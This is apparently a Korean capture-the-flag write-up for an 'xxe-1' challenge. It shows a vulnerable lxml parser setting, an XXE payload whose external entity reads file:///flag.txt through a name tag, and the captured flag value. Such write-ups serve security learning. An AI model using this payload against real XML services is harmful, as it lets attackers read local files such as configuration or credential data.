

## xxe-1

```bash
parser = etree.XMLParser(resolve_entities=True, load_dtd=True, no_network=True)
```

외부 엔티티가 활성화 되어있어 XXE 취약점이 발생 할 수 있다.

네임태그에 xxe 엔티티를 삽입하고 xxe 엔티티가 flag.txt 값을 반환하게 하면 flag를 획득 할 수 있을것이다.

```bash
<?xml version="1.0"?>
<!DOCTYPE order [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<order><name>&xxe;</name></order>
```



정상적으로 동작하며 flag 획득이 가능하다.
flag{32b3ad5150d4d2349d01}
